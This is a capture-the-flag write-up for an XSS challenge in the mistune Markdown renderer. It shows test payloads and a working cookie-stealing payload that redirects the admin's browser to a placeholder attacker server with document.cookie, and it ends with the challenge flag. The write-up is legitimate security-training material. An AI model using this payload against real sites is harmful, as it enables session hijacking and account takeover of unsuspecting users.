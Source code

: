 # Writeup

### Challenge available at `https://mistune.flatearth.fluxfingers.net/`

# Description:
 Try to steal admin cookie. Admin will click on ```<a>``` tag. This challenge has XSS vulnerability by which you can use it to steal admin cookie.

# Test:

After searching for a while i found this maybe useful ```<javascript:alert('xss')>```,this will create a ```<a>``` tag, i will use this as payload and the result:
![XSS-Test](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-test-xss.png)

Then i try ```<javascript:alert(document.cookie)>```, the result:
![Cookie-Test](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-test-cookie.png)

# Exploit:

After testing, i will try to get current session to my server before send script to admin
```<javascript:document.location='your/server/here/cookie.php?cookie='+document.cookie>``` then i receive this:
![Cookie-to-server](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-get-cookie-test.png)
Now we are ready to steal admin cookie
```
<javascript:document.location='your/server/here/cookie.php?cookie='+document.cookie>
```

And #BINGO
![Admin-cookie](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-admin-cookie.png)
# flag{92da883eb1df9d1287ff25f1a1099f29}
:smile: :heavy_check_mark:

